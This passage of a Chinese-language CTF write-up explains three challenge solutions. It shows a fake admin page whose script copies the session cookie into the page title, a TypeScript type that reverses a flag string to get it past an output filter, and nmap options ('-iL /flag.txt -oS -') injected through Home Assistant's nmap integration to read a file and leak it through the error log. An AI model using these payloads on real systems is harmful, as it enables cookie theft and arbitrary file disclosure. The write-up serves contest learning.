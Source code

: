 ```json
{"Content-Type": "text/javascript", "Service-Worker-Allowed":"/"}
```

假 admin 页：输出 flag

```html
<script>
  function a()
  {
    var cookie = document.cookie;
    document.title = cookie;
  }
  function load()
  {
    setInterval(a, 200)
  }
  </script>

<body onload=load()>
```



## 简单的打字稿

### Super Easy

二阶段提示需要把 flag 作为类型检查器报错的一部分输出，但是如果输出包含 flag 字符串就会崩，所以需要把 flag 的类型做一些变换。

一顿搜索发现了[TS 模板字符串类型](https://juejin.cn/post/7129864202604249096)有很多骚操作，其中反转字符串就是我们所需要的。

```ts
type ReverseString<Str extends string> = Str extends `${ infer First }${ infer Rest }` ? `${ ReverseString<Rest> }${ First }` : Str;
type T = ReverseString<flag1>;
let a: T = 'boom'
```

## 逝界计划

~~一阶段时翻了下集成的列表，我去怎么这么多，故放弃。~~

二阶段提示可以用 nmap 集成输出 flag。

我们先读读 nmap 文档，用 `-iL` 可以读任意文件，经过尝试也会把内容打到报错里。

那么接下来就是想办法把报错拿出来了。

自然而然地想到，能不能把 flag 打到 home assistant 的 log 里呢？

看了看[代码](https://github.com/home-assistant-libs/python-nmap/blob/master/nmap/nmap.py)，nmap 集成是靠解析 nmap 的 xml 输出来工作的，只要 xml 解析失败了，集成就会把 nmap stderr 的内容打到 log。

于是想到，只要混一点别的东西到 xml 里，那么标准输出有很大概率是解析失败的。

再次打开 nmap 文档，找到了 `-oS` 这个输出选项，指定输出到 stdout 后确实输出了无效的 xml，大功告成。
```log
2023-10-18 18:26:30.060 ERROR (MainThread) [homeassistant.components.nmap_tracker] Nmap scanning failed: 'Failed to resolve "flag{sOOoo-many-lOoPHOles-in-HOmE-AsSisTant}".\nWARNING: No targets were specified, so 0 hosts scanned.\n
```
最后给 nmap 集成指定的附加选项：`-iL /flag.txt -oS -`。
